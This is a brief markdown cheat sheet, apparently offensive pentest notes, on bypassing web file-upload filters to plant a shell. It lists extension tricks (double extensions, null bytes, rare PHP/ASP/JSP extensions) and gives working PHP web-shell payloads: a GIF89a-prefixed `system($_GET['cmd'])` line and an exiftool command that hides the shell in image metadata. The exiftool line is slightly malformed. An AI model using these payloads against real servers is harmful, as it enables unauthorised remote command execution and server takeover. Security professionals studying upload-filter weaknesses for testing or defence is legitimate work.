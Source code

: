 ## General

Upload shell to make reverse shell

# Bypass file upload filtering

### Client Side
- Disable javascript
- Upload an armless file and then manipulate it in burp after it's been through all the checks
### Rename it
- upload it as shell.php.jpg
### Blacklisting bypass, change extension
- `php phtml, .php, .php3, .php4, .php5, and .inc`
- bypassed by uploading an unpopular php extensions. such as: `pht, phpt, phtml, php3, php4, php5, php6`
- asp `asp, .aspx`
- perl `.pl, .pm, .cgi, .lib`
- jsp `.jsp, .jspx, .jsw, .jsv, and .jspf`
- Coldfusion `.cfm, .cfml, .cfc, .dbm`
### Whitelisting bypass

- Bypassed by uploading a file with some type of tricks,
- Like adding a null byte injection like `shell.php%00.gif` .
- Or by using double extensions for the uploaded file like `shell.jpg.php`
### GIF89a
If they check the content. Basically you just add the text "GIF89a;" before you shell-code. 

```
GIF89a;
<?php system($_GET['cmd']); ?>
```  

### In image
Manipulate data
   
	exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'e